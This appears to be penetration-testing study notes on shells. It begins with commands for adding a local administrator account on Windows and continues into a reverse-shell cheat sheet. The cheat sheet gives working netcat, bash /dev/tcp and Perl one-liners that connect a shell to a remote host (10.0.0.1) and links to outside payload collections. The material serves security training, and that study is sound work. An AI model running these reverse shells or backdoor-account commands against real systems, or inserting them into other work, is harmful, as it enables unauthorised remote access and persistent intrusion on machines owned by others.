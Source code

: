 Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

    net user <username> <password> /add

    net localgroup administrators <username> /add

The important take away from this task:

Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.

## Reverse Shells Cheat Sheet

See: 

- See [PentestMonkey Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- See [Payloads Al the Things Reverse Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

### NetCat Cheat Sheet

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the `-e` option.

```commandline
nc -e /bin/sh 10.0.0.1 1234
```

### Bash  Cheat Sheet

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

```commandline
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

No `/dev/tcp` on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).

### Perl Cheat Sheet

```commandline
perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
```

See: http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
